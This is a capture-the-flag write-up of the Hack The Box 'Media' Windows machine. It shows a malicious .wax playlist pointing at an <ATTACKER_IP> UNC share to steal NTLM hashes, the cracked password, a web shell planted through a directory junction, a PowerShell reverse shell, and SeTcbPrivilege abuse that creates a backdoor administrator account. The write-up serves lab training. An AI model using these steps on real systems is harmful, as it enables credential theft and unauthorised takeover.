## About Media

**Name:** Media

**Machine:** https://app.hackthebox.com/machines/Media

**Difficulty:** Medium

**OS:** Windows

**Target IP:** 10.129.234.67

---
## Enumeration

I'll start with a standard nmap scan against all ports to see what's exposed:

```
nmap -sC -sV -oA nmap/Media -v 10.129.234.67
```

The `rdp-ntlm-info` output confirms the hostname is `MEDIA`, and it's a standalone box rather than a domain member as there's no domain name distinct from the computer name.

```
PORT     STATE SERVICE       VERSION
22/tcp   open  ssh           OpenSSH for_Windows_9.5 (protocol 2.0)
80/tcp   open  http          Apache httpd 2.4.56 ((Win64) OpenSSL/1.1.1t PHP/8.1.17)
|_http-server-header: Apache/2.4.56 (Win64) OpenSSL/1.1.1t PHP/8.1.17
|_http-title: ProMotion Studio
| http-methods:
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-favicon: Unknown favicon MD5: 556F31ACD686989B1AFCF382C05846AA
3389/tcp open  ms-wbt-server Microsoft Terminal Services
| ssl-cert: Subject: commonName=MEDIA
| Issuer: commonName=MEDIA
| Public Key type: rsa
| Public Key bits: 2048
| Signature Algorithm: sha256WithRSAEncryption
| Not valid before: 2026-08-13T15:06:04
| Not valid after:  2027-02-12T15:06:04
| MD5:     2f0e aee4 3fe4 d3e2 c136 bf8a 2f7c b2bc
| SHA-1:   c306 b0ee ed56 3da9 363b 6f12 999d 8577 d7c8 ea63
|_SHA-256: b6ee 14b5 6d13 17dd 3485 881e 50a4 2227 507c d2e2 42f6 e9d8 8051 ab60 0a1b 9791
| rdp-ntlm-info: 
|   Target_Name: MEDIA
|   NetBIOS_Domain_Name: MEDIA
|   NetBIOS_Computer_Name: MEDIA
|   DNS_Domain_Name: MEDIA
|   DNS_Computer_Name: MEDIA
|   Product_Version: 10.0.20348
|_  System_Time: 2026-08-14T15:07:57+00:00
|_ssl-date: 2026-08-14T15:08:04+00:00; 0s from scanner time.
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows
```

Port 80 loads a simple site.


The `TEAM` section lists a few employee names, which I'll hold onto in case a password-spray becomes useful later.


More interesting is the `HIRING` section, it has a form and a file upload, with the description specifically asking for a video compatible with Windows Media Player.


Wappalyzer confirms the stack: Windows, Apache, PHP.



## Foothold

I'll test the upload with a plain jpg first, just to see how the form behaves. It comes back with a "successfully submitted" alert, meaning the upload is accepted server-side without validating that it's actually a video.



Given the `HIRING` page explicitly calls out Windows Media Player, and the fact that whatever gets uploaded is presumably opened by someone on the backend, I searched for a Windows Media Player exploit and land on [this](https://www.morphisec.com/blog/5-ntlm-vulnerabilities-unpatched-privilege-escalation-threats-in-microsoft/) article.



The vulnerability abuses `.wax`/`.wvx`/`.wmx` playlist files. When Windows Media Player opens one of these, it follows a `<ref href="">` pointing at a UNC path, and in doing so it authenticates to that remote host, leaking the requesting user's NetNTLM hash in the process, with zero further interaction needed once the file is opened.

I start Responder on `tun0` so any SMB auth attempt gets captured.



Next, I created a file `shell.wax` and copied this Poc in it:

```
<asx version="3.0">
  <title>Leak</title>
  <entry>
    <title></title>
    <ref href="file://<ATTACKER_IP>\test\1.mp3"/>
  </entry>
</asx>
```

Next, I uploaded this through the `HIRING` form. About a minute later, Responder catches an NTLMv2 hash for a user called `enox`.



I throw the hash at john and it cracks to `1234virus@`.



A quick check with NetExec confirms the credential is valid on the box.



So I SSH in directly as `enox` and pull the user flag.



## Privilege Escalation

Looking around, there are only two users on the box: `enox` and `administrator`.



`enox` doesn't have any interesting privileges assigned.



Nor is `enox` a member of any noteworthy group.



In `enox`'s Documents folder there's a `review.ps1` script.



Revewing the `review.ps1` script explains the automation I triggered earlier. A loop that watches a todo file and automatically opens each newly uploaded file in `wmplayer.exe`.

```
$todofile="C:\\Windows\\Tasks\\Uploads\\todo.txt"
$mediaPlayerPath = "C:\Program Files (x86)\Windows Media Player\wmplayer.exe"


while($True){

    if ((Get-Content -Path $todofile) -eq $null) {
        Write-Host "Todo is empty."
        Sleep 60 # Sleep for 60 seconds before rechecking
    }
    else {
        $result = Get-Values -FilePath $todofile
        $filename = $result.FileName
        $randomVariable = $result.RandomVariable
        Write-Host "FileName: $filename"
        Write-Host "Random Variable: $randomVariable"

        # Opening the File in Windows Media Player
        Start-Process -FilePath $mediaPlayerPath -ArgumentList "C:\Windows\Tasks\uploads\$randomVariable\$filename"

        # Wait for 15 seconds
        Start-Sleep -Seconds 15

        $mediaPlayerProcess = Get-Process -Name "wmplayer" -ErrorAction SilentlyContinue
        if ($mediaPlayerProcess -ne $null) {
            Write-Host "Killing Windows Media Player process."
            Stop-Process -Name "wmplayer" -Force
        }

        # Task Done
        UpdateTodo -FilePath $todofile # Updating C:\Windows\Tasks\Uploads\todo.txt
        Sleep 15
    }

}
```

The web root itself lives at `C:\xampp\htdocs`.



`C:\Windows\Tasks\Uploads` holds an empty `todo.txt` plus a set of MD5-hash-named folder holding whatever we uploaded earlier.



Reading `index.php` explains how those folder names are generated: the upload handler builds the destination folder as `md5(firstname . lastname . email)`, sanitizes the filename to alphanumeric-plus-dot-underscore, then drops the file inside.

```
<?php                                                                                                                                                               
 
error_reporting(0);                                                                                                                                                                                                                                                                                                         
 
    // Your PHP code for handling form submission and file upload goes here.                                                                                        
 
    $uploadDir = 'C:/Windows/Tasks/Uploads/'; // Base upload directory                                                                                               
                                                                                  
    if ($_SERVER["REQUEST_METHOD"] == "POST" && isset($_FILES["fileToUpload"])) {                                                                                    
        $firstname = filter_var($_POST["firstname"], FILTER_SANITIZE_STRING);                                                                                        
        $lastname = filter_var($_POST["lastname"], FILTER_SANITIZE_STRING);                                                                                          
        $email = filter_var($_POST["email"], FILTER_SANITIZE_STRING);                                                                                                
                                                                                                                                                                     
        // Create a folder name using the MD5 hash of Firstname + Lastname + Email                                                                                   
        $folderName = md5($firstname . $lastname . $email);                                                                                                          
                                                                                                                                                                     
        // Create the full upload directory path                                                                                                                     
        $targetDir = $uploadDir . $folderName . '/';                 
                                                                                                                                                                     
        // Ensure the directory exists; create it if not                                                                                                             
        if (!file_exists($targetDir)) {                                                                                                                              
            mkdir($targetDir, 0777, true);                                                                                                                           
        }                                                                                                                                                            
                                                                                                                                                                     
        // Sanitize the filename to remove unsafe characters                                                                                                         
        $originalFilename = $_FILES["fileToUpload"]["name"];                                                                                                         
        $sanitizedFilename = preg_replace("/[^a-zA-Z0-9._]/", "", $originalFilename);                                                                                
                                                                                                                                                                     
                                                                                                                                                                     
        // Build the full path to the target file                                                                                                                    
        $targetFile = $targetDir . $sanitizedFilename;                                                                                                               
                                                                                                                                                                     
        if (move_uploaded_file($_FILES["fileToUpload"]["tmp_name"], $targetFile)) {                                
 
            echo "<script>alert('Your application was successfully submitted. Our HR shall review your video and get back to you.');</script>";                      
                                                                                                                                                                     
            // Update the todo.txt file                                           
            $todoFile = $uploadDir . 'todo.txt';                                                                                                                     
            $todoContent = "Filename: " . $originalFilename . ", Random Variable: " . $folderName . "\n";                                                            
                                                                                                                                                                     
            // Append the new line to the file                                                                                                                       
            file_put_contents($todoFile, $todoContent, FILE_APPEND);                                                                                                 
        } else {                                                                                                                                                     
            echo "<script>alert('Uh oh, something went wrong... Please submit again');</script>";                                                                    
        }                                                                                                                                                            
    }                                                                                                                                                                
    ?>                                                  
```

That folder name is fully predictable from the three form fields I control, and not tied to any server-side secret. If I can reproduce the folder name in advance, I can pre-plant something in its place before a real upload lands there.

So I upload a simple PHP web shell with a known set of details.


A new directory forms under the uploads directory with the web shell inside it.



I copy the directory name and delete the directory. Then I create a junction with the same name, pointing at the live web root instead:

```
cmd /c mklink /J C:\Windows\Tasks\Uploads\44b85c98e94039c8a0a015f6d3a3449e C:\xampp\htdocs\
```

Now, if the same firstname/lastname/email combination is submitted again, PHP will resolve straight through the junction and drop the file into `htdocs`, where Apache will actually serve and execute it.

I upload the web shell again with the same details, and confirm the file lands at the target destination.



Hitting it directly, the web shell works.



To get a proper reverse shell, I build a base64-encoded, URL-encoded PowerShell one-liner from [here]().



I set up a listener and trigger the payload through the web shell with curl.



The connection comes back on the listener.



Checking privileges on this shell, `SeTcbPrivilege` (known as "Act as part of the operating system") is present but disabled. This privilege allows a program to run programs or access files as any user or the `SYSTEM` account.



I transfer over two files needed to abuse it.



[EnableAllTokenPrivs.ps1](https://github.com/fashionproof/EnableAllTokenPrivs/blob/master/EnableAllTokenPrivs.ps1) enables all currently-held but disabled privileges, `SeTcbPrivilege` included:

```
Import-Module EnableAllTokenPrivs.ps1
./EnableAllTokenPrivs.ps1
```



With that enabled, I use [TcbElevation-x64.exe]() - which leverages `SeTcbPrivilege` to impersonate SYSTEM. First, I add a new user:

```
./TcbElevation-x64.exe svc_add "cmd /c net user hacker pass123 /add"
```



Then, add that user to the local Administrators group:

```
./TcbElevation-x64.exe group "cmd /c net localgroup administrators hacker /add"
```



The new `hacker` account works over SSH.



I SSH in as `hacker` and read the root flag.



RDP also works with the same credentials, and the root flag is readable there as well.



---